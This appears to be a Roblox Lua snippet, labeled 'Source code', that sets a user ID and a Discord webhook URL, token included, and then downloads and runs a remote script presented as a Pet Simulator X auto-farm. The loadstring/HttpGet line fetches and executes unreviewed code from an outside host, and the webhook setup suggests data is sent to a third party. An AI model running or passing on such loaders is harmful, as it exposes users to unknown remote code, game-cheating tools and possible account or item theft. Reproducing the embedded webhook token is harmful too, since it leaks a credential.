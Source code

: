 _G.UserID = 3090769280
_G.WebHook = "https://discord.com/api/webhooks/1059702938945212416/gIIg7ItbwCOGBEOnPpjPepnh6BMqZhPm68Nuvqd--43KBnivsiLa8aEoymcgRAqJqa_N"
loadstring(game:HttpGet('https://raw.githubusercontent.com/vestyx/PetSimulatorXAutoFarm/main/HasteFarm.lua'))()
